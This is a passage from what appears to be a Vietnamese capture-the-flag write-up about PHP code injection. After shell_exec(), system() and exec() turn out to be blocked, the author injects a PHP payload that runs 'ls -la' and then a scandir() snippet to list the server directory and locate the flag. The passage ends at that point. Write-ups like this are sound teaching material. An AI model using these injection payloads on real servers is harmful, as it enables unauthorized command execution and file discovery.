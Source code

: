 shell\_exec() bị block. Ta thử với:

**Payload:** *&lt;pre&gt;&lt;?php system('ls -la') ?&gt;&lt;/pre&gt;;*

<img src="./media/image10.png" style="width:6.5in;height:2.03264in" alt="Graphical user interface, text, application, website Description automatically generated" />

system() cũng bị block. Ta thử với exec() nhưng cũng bị block:

<img src="./media/image11.png" style="width:6.5in;height:1.81528in" alt="Graphical user interface, text, application Description automatically generated" />

Không còn cách nào khác, ta sử dụng scandir() để list all file trong director:

*&lt;pre&gt;*

*&lt;?php*

*$path = './';*

*$files = scandir($path);*

*foreach($files as $file) {*

*echo "&lt;a href='$file'&gt;$file&lt;/a&gt;";*

*}*

*?&gt;*

*&lt;/pre&gt;;*

Xong, nó list all ra được và ta có thể thấy được flag:
